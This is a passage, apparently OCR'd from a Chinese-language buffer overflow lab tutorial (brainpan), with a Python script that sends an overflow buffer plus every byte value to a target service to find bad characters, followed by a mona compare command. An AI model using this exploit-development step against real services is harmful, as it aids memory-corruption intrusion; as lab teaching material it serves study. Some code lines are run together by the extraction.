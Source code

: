 ```
offset=2012all_char=b'\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff'buffer= b"A"*offset+b"BBBB"+all_chartry:
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("10.0.2.8",9999))
    s.send((b"testuser"+b"\r\n"))
    s.recv(1024)
    s.send((buffer+b"\r\n"))
    s.recv(1024)
    s.close()except:
    print("error")
    sys.exit()
```

在执行完上面的脚本后，程序崩溃了，现在我们可以通过比较 mona 之前生成的所有字符来找到坏字符。

![](img/b2c9648d239c329070fe7d3eb6d64095.png)

正如你所看到的程序崩溃了，现在我们有一个 **EIP(指令指针)**值 42424242(这是上面脚本中设置的 B)和一个 **ESP(堆栈指针)**值 00A6EEA8

现在我们可以用莫娜来找出像这样的坏角色:

```
!mona compare -f C:\mona\brainpan\bytearray.bin -a <ESP_ADDRESS>
```
